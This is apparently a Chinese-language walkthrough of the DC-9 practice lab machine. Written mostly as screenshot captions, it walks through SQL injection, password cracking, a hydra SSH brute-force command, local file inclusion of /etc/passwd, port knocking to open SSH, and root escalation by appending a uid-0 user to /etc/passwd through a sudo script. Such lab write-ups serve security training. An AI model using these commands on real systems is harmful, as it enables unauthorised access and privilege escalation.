# DC-9


再去扫一下目录,没发现什么东西
看下这几个功能页面
一个搜索人名的功能,可能存在sql注入


尝试直接获shell
没有成功,不是root

去读取一下账号密码
找到admin,破解下密码transorbital1



进去后没啥功能,只能增加用户,php代码也不能写入
再翻翻数据库
找到一些用户和明文密码,看看能不能等上ssh
```
hydra -L user.txt -P passwords.txt ssh://192.168.111.142
```

提示连接被拒绝
nmap扫描时发现22端口被过滤,这条路走不了
在manage板块发现文件包含漏洞
加上参数file=../../../../..//etc/passwd

试一下伪协议data,php://input,都不行
再试一下apache,ssh日志包含,还是不行
看了下,用到端口敲门开启ssh(按特定顺序访问特定端口)
/etc/knockd.conf(策略配置文件)

```
 开门序列 ([openSSH])
​**sequence = 7469,8475,9842**​
​含义​：定义开门的“秘密握手”信号。客户端需要按顺序向服务器的这三个端口发送TCP SYN包（即尝试连接）。顺序必须是 7469 -> 8475 -> 9842。
​**seq_timeout = 25**​
​含义​：整个敲门序列必须在25秒内完成，否则无效。
​**command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT**​
​含义​：敲门成功后执行的命令。它使用 iptables 在防火墙规则链的最前面​（-I INPUT）插入一条规则，​允许（ACCEPT）​​ 来源IP（%IP% 是敲门客户端的IP地址）访问本机的22端口（SSH）。
​**tcpflags = syn**​
​含义​：只有携带SYN标志的TCP包（即连接初始化请求）才会被敲门服务识别，普通的已建立连接的数据包或其它类型的包会被忽略，这提高了隐蔽性和安全性。
2. 关门序列 ([closeSSH])
​**sequence = 9842,8475,7469**​
​含义​：定义关门的“秘密握手”信号。顺序与开门相反：9842 -> 8475 -> 7469。
​**seq_timeout = 25**​
​含义​：同样，整个序列需在25秒内完成。
​**command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT**​
​含义​：敲门成功后执行的命令。它使用 iptables ​删除（-D）​​ 之前为该IP地址添加的那条允许规则，相当于“撤销”其SSH访问权限。
​**tcpflags = syn**​
​含义​：同上，只识别SYN包。
```

ssh端口成功开启
接下来就去爆破

三个用户,都登上
sudo和suid提权都不行
在janitor用户下发现

将这几个密码放字典里再跑一遍

跑出个新的,发现有sudo权限

运行提示

找到test.py

将第一个参数内容追加到第二个参数
添加一个用户到/etc/passwd
使用openssl生成密码hash
```
openssl passwd -1 -salt 11111 hacker
```


这里使用单引号,转义$
```
echo 'test:$1$11111$gc5BCmUEPskaS3HEBT3MK/:0:0:root:/root:/bin/bash' > /tmp/hack.txt
```
```
sudo ./test /tmp/hack.txt /etc/passwd
```
成功写入

切换用户,获取flag




